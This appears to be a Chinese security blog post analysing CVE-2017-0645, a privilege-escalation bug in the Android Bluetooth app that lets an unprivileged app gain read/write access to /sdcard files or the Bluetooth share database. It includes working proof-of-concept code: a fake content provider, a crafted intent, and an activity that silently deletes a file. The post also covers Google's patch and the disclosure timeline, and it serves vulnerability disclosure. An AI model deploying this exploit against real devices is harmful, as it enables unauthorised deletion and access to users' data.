

# 蓝牙 App 漏洞系列分析之三 CVE-2017-0645 - HacTF - 博客园

> 原文：[`www.cnblogs.com/HacTF/p/8052237.html`](https://www.cnblogs.com/HacTF/p/8052237.html)

# 蓝牙 App 漏洞系列分析之三 CVE-2017-0645

#### 0x01 漏洞简介

Android 6 月的安全公告，同时还修复了我们发现的一个蓝牙 App 提权中危漏洞，该漏洞允许手机本地无权限的恶意程序构造一个仿冒的 Provider ，并获取 Provider 所指向文件的读写权限，可用于写 SD 卡或者蓝牙共享数据库，漏洞详情如下：

*   CVE: CVE-2017-0645
*   BugID: A-35310991
*   严重性: 中危
*   漏洞类型: 提权
*   Updated AOSP versions: 6.0.1, 7.0, 7.1.1, 7.1.2

#### 0x02 漏洞分析

该漏洞其实是一个常规的 Android 组件暴露漏洞，跟我们[上一个分析的蓝牙漏洞](https://xianzhi.aliyun.com/forum/read/1713.html)一样，我们知道在蓝牙 App 中 BluetoothOppLauncherActivity 是可以被第三方应用启动的。这一次，我们来看 onCreate 函数中传入 Intent action 为 android.btopp.intent.action.OPEN 的处理流程。

```
 } else if (action.equals(Constants.ACTION_OPEN)) {
            Uri uri = getIntent().getData();
            if (V) Log.v(TAG, "Get ACTION_OPEN intent: Uri = " + uri);

            Intent intent1 = new Intent();
            intent1.setAction(action);
            intent1.setClassName(Constants.THIS_PACKAGE_NAME, BluetoothOppReceiver.class.getName());
            intent1.setDataAndNormalize(uri);
            this.sendBroadcast(intent1);
            finish();
```

转到 BluetoothOppReceiver 进行处理。接着查看 BluetoothOppReceiver 的 onReceive 函数，由于 Intent 可控，这里蓝牙 App 将会取出 intent 中的 Data 进行数据库查询，然后取出 transInfo ，最后进入 BluetoothOppUtility.openReceivedFile 函数。

```
 } else if (action.equals(Constants.ACTION_OPEN) || action.equals(Constants.ACTION_LIST)) {
            if (V) {
                if (action.equals(Constants.ACTION_OPEN)) {
                    Log.v(TAG, "Receiver open for " + intent.getData());
                } else {
                    Log.v(TAG, "Receiver list for " + intent.getData());
                }
            }

            BluetoothOppTransferInfo transInfo = new BluetoothOppTransferInfo();
            Uri uri = intent.getData();  //Intent 可控！
            transInfo = BluetoothOppUtility.queryRecord(context, uri);
            if (transInfo == null) {
                Log.e(TAG, "Error: Can not get data from db");
                return;
            }

            if (transInfo.mDirection == BluetoothShare.DIRECTION_INBOUND
                    && BluetoothShare.isStatusSuccess(transInfo.mStatus)) {
                // if received file successfully, open this file
                // transInfo 可控！
                BluetoothOppUtility.openReceivedFile(context, transInfo.mFileName,
                        transInfo.mFileType, transInfo.mTimeStamp, uri);
                BluetoothOppUtility.updateVisibilityToHidden(context, uri);
            } else {
                Intent in = new Intent(context, BluetoothOppTransferActivity.class);
                in.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
                in.setDataAndNormalize(uri);
                context.startActivity(in);
            }
```

在 openReceivedFile 函数中，我们看到蓝牙 App 最终将在授予读写权限后，启动能够处理 transInfo.mFileType 文件类型的某外部 App 的 Activity ，对 transInfo.mFileName 进行处理。

```
 public static void openReceivedFile(Context context, String fileName, String mimetype,
            Long timeStamp, Uri uri) {
        if (fileName == null || mimetype == null) {
            Log.e(TAG, "ERROR: Para fileName ==null, or mimetype == null");
            return;
        }

        File f = new File(fileName); //fileName 可控
        if (!f.exists()) {
        ...
        // skip
       }

       // path 受限于 com.google.android.bluetooth.fileprovider 使用的位置

        Uri path = FileProvider.getUriForFile(context,
                       "com.google.android.bluetooth.fileprovider", f);

        // If there is no scheme, then it must be a file
        if (path.getScheme() == null) {
            path = Uri.fromFile(new File(fileName));
        }

        if (isRecognizedFileType(context, path, mimetype)) {
            Intent activityIntent = new Intent(Intent.ACTION_VIEW);
            activityIntent.setDataAndTypeAndNormalize(path, mimetype);

            List<ResolveInfo> resInfoList = context.getPackageManager()
                .queryIntentActivities(activityIntent,
                        PackageManager.MATCH_DEFAULT_ONLY);

            // 注意这段，授予任何 app 对该文件的读写权限
            // Grant permissions for any app that can handle a file to access it
            for (ResolveInfo resolveInfo : resInfoList) {
                String packageName = resolveInfo.activityInfo.packageName;
                context.grantUriPermission(packageName, path,
                        Intent.FLAG_GRANT_WRITE_URI_PERMISSION |
                        Intent.FLAG_GRANT_READ_URI_PERMISSION);
            }

            activityIntent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
            // 授予 activity 对该文件的读写权限
            activityIntent.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
            activityIntent.setFlags(Intent.FLAG_GRANT_WRITE_URI_PERMISSION);

            try {
                if (V) Log.d(TAG, "ACTION_VIEW intent sent out: " + path + " / " + mimetype);
                context.startActivity(activityIntent); 
```

由于 Intent 可控， Intent Data 可控， transInfo 可控，再加上启动的外部 App 被授予了读写权限，因此这里存在漏洞，我们可以伪造一个文件让蓝牙 App 启动某外部 App 打开，同时该外部 App 获得对伪造文件指向位置的读写权限。可惜此处伪造的文件位置受限于 com.android.bluetooth.filepovider ，其 file_paths.xml 使用的 external-path ，这意味着我们只能伪造一个外部存储 /sdcard 目录的文件。

#### 0x03 漏洞利用

漏洞利用可如下图所示，这种攻击发送 intent 的过程像极了飞去来器。恶意 App 发送 intent 过后,又回到了自己手中，但却获得了提权。



1.恶意 App 声明能对某种 filetype 进行处理

```
 <activity android:name=".FakeViewActivity">
            <intent-filter>
                <action android:name="android.intent.action.VIEW" />
                <category android:name="android.intent.category.DEFAULT" />
                <data android:mimeType="xxx/yyy" />
            </intent-filter>
        </activity>
```

2.构造一个虚假的 bluetooth share provider——FakeBluetoothOppProvider ，传入 intent data 之中。主要内容可以参考 BluetoothOppProvider ，其 Uri 为

```
content://fake.bluetooth.provider/btopp/
```

并 expose 出来

```
<provider
            android:authorities="fake.bluetooth.provider"
            android:name=".FakeBluetoothOppProvider"
            android:exported="true" />
```

然后填入内容，指向 /sdcard 中某个已知文件，并传入 Intent data , 启动 BluetoothOppLauncherActivity

```
 m_btnTest.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                Intent intent = new Intent();
                intent.setComponent(new ComponentName("com.android.bluetooth",
                        "com.android.bluetooth.opp.BluetoothOppLauncherActivity"));
                intent.setAction(Constants.ACTION_OPEN);
                intent.setData(Uri.parse("content://fake.bluetooth.provider/btopp/1"));
                startActivity(intent);

            }
        });

        m_btnAddFakeEntry = (Button)findViewById(R.id.add);
        m_btnAddFakeEntry.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                ContentValues values = new ContentValues();
                values.put(BluetoothShare._ID, 1);
                values.put(BluetoothShare.DIRECTION, BluetoothShare.DIRECTION_INBOUND);
               values.put(BluetoothShare.TOTAL_BYTES, 110000);
                values.put(BluetoothShare.CURRENT_BYTES,110000);
                values.put(BluetoothShare.TIMESTAMP, 111111);
                values.put(BluetoothShare.DESTINATION, "00:10:60:AA:36:F8");
                values.put(BluetoothShare._DATA, "/storage/emulated/0/CVE-2016-6762.apk");
               values.put(BluetoothShare.MIMETYPE, "xxx/yyy");

                values.put(BluetoothShare.USER_CONFIRMATION, 1);

                // when content provider is null, use insert or use update

                m_contentResolver.insert(BluetoothShare.CONTENT_URI, values);
               // m_contentResolver.update(BluetoothShare.CONTENT_URI, values, "_id = 12", null);

            }
        });
```

3.蓝牙 App 取出我们构造的 filename, filetype；
4.蓝牙 App 授予读写权限，然后再启动恶意 App 进行处理;
5.恶意 App 直接删除 /sdcard 中的这个文件。

```
public class FakeViewActivity extends Activity {
    final static String TAG = "Bluz";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        Intent intent = getIntent();
        String dir = intent.getDataString();
        Log.d(TAG, "dir is "+dir);
        Uri uri = intent.getData();
        ContentResolver cr = getContentResolver();
       Log.d(TAG, "Deleting "+ intent.getDataString() +" silently!");
        getContentResolver().delete(uri, null, null);
    }
}
```

在上述整个过程中，恶意 App 并未申请 SD 卡写权限，因此这是一个提权漏洞。

另外还有一种利用方式，是在 Intent 中直接传入蓝牙 BluetoothOppProvider 的 uri ，比如 content://com.android.bluetooth.opp/btopp/1" ，从而获得对蓝牙共享数据库的读写权限。

完成代码请见[这里](https://github.com/heeeeen/CVE-PoC/tree/master/CVE-2017-0645)

#### 0x04 漏洞修复

Google 对该漏洞的[修复](https://android.googlesource.com/platform/packages/apps/Bluetooth/+/14b7d7e1537af60b7bca6c7b9e55df0dc7c6bf41%5E%21/#F0)主要有两点:

1.确保 Intent data 始终为 BluetoothOppProvider 的 Uri ，防止仿冒； 2.撤销了授予第三方应用的读写权限，只授予第三方应用某个 Activity 的读权限。

#### 0x05 时间线

*   2017.02.15: 漏洞提交
*   2017.03.01: 漏洞确认，初始评级为高
*   2017.03.23: 漏洞降级为中
*   2017.06.01: 补丁发布
*   2017.06.23: 漏洞公开